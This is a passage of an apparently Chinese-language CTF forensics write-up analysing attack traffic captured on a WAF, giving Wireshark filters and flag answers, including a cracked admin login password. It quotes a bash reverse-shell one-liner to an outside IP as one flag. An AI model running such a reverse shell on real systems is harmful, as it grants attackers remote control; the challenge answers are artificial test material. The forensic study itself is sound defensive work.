 搜索`whoami`搜索到一个流量

> **flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}**

# 流量特征分析-waf 上的截获的黑客攻击流量

确定攻击者`ip`再进行筛选

## 一,黑客成功登录系统的密码 flag{xxxxxxxxxxxxxxx}

![image-20240612114418649](../assets/img/old_imgs/image-20240612114418649.png)

找到登陆目录,根据`length`逐条排查,发现`id`最后的一条就是我们要的数据

> http.request.method == POST and ip.src==192.168.94.59 and http.request.uri == "/admin/login.php?rec=login"

> **flag{admin!@#pass123}**

## 二,黑客发现的关键字符串 flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
